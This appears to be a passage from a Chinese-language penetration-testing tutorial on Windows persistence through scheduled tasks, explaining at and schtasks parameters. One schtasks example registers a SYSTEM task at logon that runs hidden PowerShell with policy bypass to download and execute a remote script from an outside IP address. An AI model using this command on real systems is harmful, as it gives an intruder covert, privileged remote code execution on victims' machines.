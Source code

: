 ### 创建计划任务（at与schtasks）

 windows下定时任务的命令有两个分别是：at和schtasks，他们两者主要区别是at命令在win7、08等高版本的windows中是不能将任务在前台执行的，也就是只会打开一个后台进程，而schtasks是将定时的任务在前台执行，下面我们逐个看看at的一些参数

```text
AT [\\computername] time [/INTERACTIVE] [ /EVERY:date[,...] | /NEXT:date[,...]] "command"
\\computername       指定远程计算机。如果省略这个参数，会计划在本地计算机上运行命令。
id                   指定给已计划命令的识别号。
/delete              删除某个已计划的命令。如果省略 id，计算机上所有已计划的命令都会被删除。
/yes                 不需要进一步确认时，跟删除所有作业的命令一起使用。
time                 指定运行命令的时间。
/interactive         允许作业在运行时，与当时登录的用户桌面进行交互。
/every:date[,...]    指定在每周或每月的特定日期运行命令。如果省略日期，则默认为在每月的本日运行。
/next:date[,...]     指定在下一个指定日期(如，下周四)运行命令。如果省略日期，则默认为在每月的本日运行。
"command"            准备运行的 Windows NT 命令或批处理
                     程序。
```

schtasks一些参数：

```text
schtasks /create /tn TaskName /tr TaskRun /sc schedule [/mo modifier] [/d day] [/m month[,month...] [/i IdleTime] [/st StartTime] [/sd StartDate] [/ed EndDate] [/s computer [/u [domain\]user /p password]] [/ru {[Domain\]User | "System"} [/rp Password]] /?
```

schtasks的执行如下

```text
schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''

http://1.1.2.21:80/Zzz'''))'" /sc onlogon /ru System
```

大家可以根据需求替换里面的参数

描述:允许管理员创建、删除、查询、更改、运行和中止本地或远程系统上的计划任务。  
   
参数列表:

```text
/Create         创建新计划任务。
/Delete         删除计划任务。
/Query          显示所有计划任务。
/Change         更改计划任务属性。
/Run            按需运行计划任务。
/End            中止当前正在运行的计划任务。
/ShowSid        显示与计划的任务名称相应的安全标识符。
/?              显示此帮助消息。
```

## 5、用户登陆初始化
